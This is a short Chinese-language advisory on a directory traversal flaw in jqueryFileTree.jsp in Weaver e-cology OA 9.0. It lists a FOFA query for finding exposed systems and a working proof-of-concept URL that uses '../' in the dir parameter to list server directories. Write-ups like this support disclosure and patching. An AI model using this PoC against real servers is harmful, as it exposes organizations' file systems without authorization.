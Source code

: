 # 泛微OA E-Cology jqueryFileTree.jsp 目录遍历漏洞

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等，其中 jqueryFileTree.jsp 文件中 dir 参数存在目录遍历漏洞，攻击者通过漏洞可以获取服务器文件目录信息

## 漏洞影响

```
泛微e-cology 9.0
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![1](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202209131045944.png)

验证POC

```
/hrm/hrm_e9/orgChart/js/jquery/plugins/jqueryFileTree/connectors/jqueryFileTree.jsp?dir=/page/resource/userfile/../../
```

![2](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202209131046623.png)